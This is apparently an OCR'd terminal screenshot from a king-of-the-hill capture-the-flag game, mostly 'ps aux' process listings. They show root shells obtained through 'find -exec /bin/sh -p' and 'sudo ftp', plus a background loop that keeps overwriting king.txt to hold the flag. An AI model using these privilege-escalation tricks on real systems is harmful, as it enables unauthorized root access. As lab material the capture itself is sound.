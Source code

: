 root      1732  0.0  0.0 120368  1012 pts/0    S    14:27   0:00 find . -exec /bin/sh -p ; -quit
root      1733  0.0  0.1 115444  1912 pts/0    S+   14:27   0:00 /bin/sh -p
shifu     1740  0.0  0.6 431424 12892 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1747  0.0  1.1 513284 21780 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1751  0.0  0.9 510540 18804 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1759  0.0  1.6 523336 31680 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1762  0.0  0.9 436032 17508 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1764  0.0  0.4 430424  8824 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
shifu     1766  0.0  0.9 510540 18788 ?        S    14:27   0:00 /usr/sbin/httpd -DFOREGROUND
root      1846  0.0  0.0      0     0 ?        S    14:31   0:00 [kworker/0:0]
root      1848  0.0  1.4 437612 27900 pts/0    T    14:31   0:00 /usr/bin/python /usr/bin/yum install kernel-devel-3.10.0-862.el7.x86_64
root      1916  0.0  0.3 159308  6248 ?        Ss   14:36   0:00 sshd: shifu [priv]
shifu     1918  0.0  0.1 159308  2432 ?        S    14:36   0:00 sshd: shifu@pts/1
shifu     1919  0.0  0.1 115444  2012 pts/1    Ss   14:36   0:00 -rbash
root      1938  0.0  0.0      0     0 ?        S    14:36   0:00 [kworker/0:2]
shifu     1964  0.0  0.0 119052  1524 pts/1    S    14:39   0:00 ftp
shifu     1965  0.0  0.1 115440  1888 pts/1    S    14:39   0:00 /bin/sh
root      1999  0.0  0.0      0     0 ?        R    14:41   0:00 [kworker/0:1]
root      2026  0.0  0.2 218524  4020 pts/1    S    14:44   0:00 sudo ftp
root      2027  0.0  0.0 119052  1524 pts/1    S    14:44   0:00 ftp
root      2033  0.0  0.0 115444  1880 pts/1    S    14:45   0:00 /bin/sh
root      2063  0.1  0.0 115444   804 pts/1    S    14:49   0:00 /bin/sh
root      2150  0.0  0.0 107956   356 pts/1    S    14:49   0:00 sleep 0.2
root      2151  0.0  0.0 155372  1876 pts/1    R+   14:49   0:00 ps aux
sh-4.2# chattr
sh: /bin/chattr: Permission denied
sh-4.2# ( while true; do echo cyber30 > king.txt; sleep 0.1; done ) &
[2] 2615
sh-4.2# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2 125344  3828 ?        Ss   14:26   0:00 /usr/lib/systemd/systemd --switched-root --system --deserialize 22
root         2  0.0  0.0      0     0 ?        S    14:26   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    14:26   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   14:26   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        S    14:26   0:00 [kworker/u30:0]
root         7  0.0  0.0      0     0 ?        S    14:26   0:00 [migration/0]
root         8  0.0  0.0      0     0 ?        S    14:26   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        R    14:26   0:00 [rcu_sched]
root        10  0.0  0.0      0     0 ?        S<   14:26   0:00 [lru-add-drain]
root        11  0.0  0.0      0     0 ?        S    14:26   0:00 [watchdog/0]
root        13  0.0  0.0      0     0 ?        S    14:26   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        S<   14:26   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    14:26   0:00 [xenwatch]
root        16  0.0  0.0      0     0 ?        S    14:26   0:00 [xenbus]
root        18  0.0  0.0      0     0 ?        S    14:26   0:00 [khungtaskd]
root        19  0.0  0.0      0     0 ?        S<   14:26   0:00 [writeback]
root        20  0.0  0.0      0     0 ?        S<   14:26   0:00 [kintegrityd]
root        21  0.0  0.0      0     0 ?        S<   14:26   0:00 [bioset]
root        22  0.0  0.0      0     0 ?        S<   14:26   0:00 [kblockd]
root        23  0.0  0.0      0     0 ?        S<   14:26   0:00 [md]
root        24  0.0  0.0      0     0 ?        S<   14:26   0:00 [edac-poller]
root        29  0.0  0.0      0     0 ?        S    14:26   0:00 [kswapd0]
root        30  0.0  0.0      0     0 ?        SN   14:26   0:00 [ksmd]
root        31  0.0  0.0      0     0 ?        SN   14:26   0:00 [khugepaged]
root        32  0.0  0.0      0     0 ?        S<   14:26   0:00 [crypto]
root        40  0.0  0.0      0     0 ?        S<   14:26   0:00 [kthrotld]
root        42  0.0  0.0      0     0 ?        S<   14:26   0:00 [kmpath_rdacd]
root        43  0.0  0.0      0     0 ?        S<   14:26   0:00 [kaluad]
root        44  0.0  0.0      0     0 ?        S<   14:26   0:00 [kpsmoused]
root        46  0.0  0.0      0     0 ?        S<   14:26   0:00 [ipv6_addrconf]
root        59  0.0  0.0      0     0 ?        S<   14:26   0:00 [deferwq]
root        90  0.0  0.0      0     0 ?        S    14:26   0:00 [kauditd]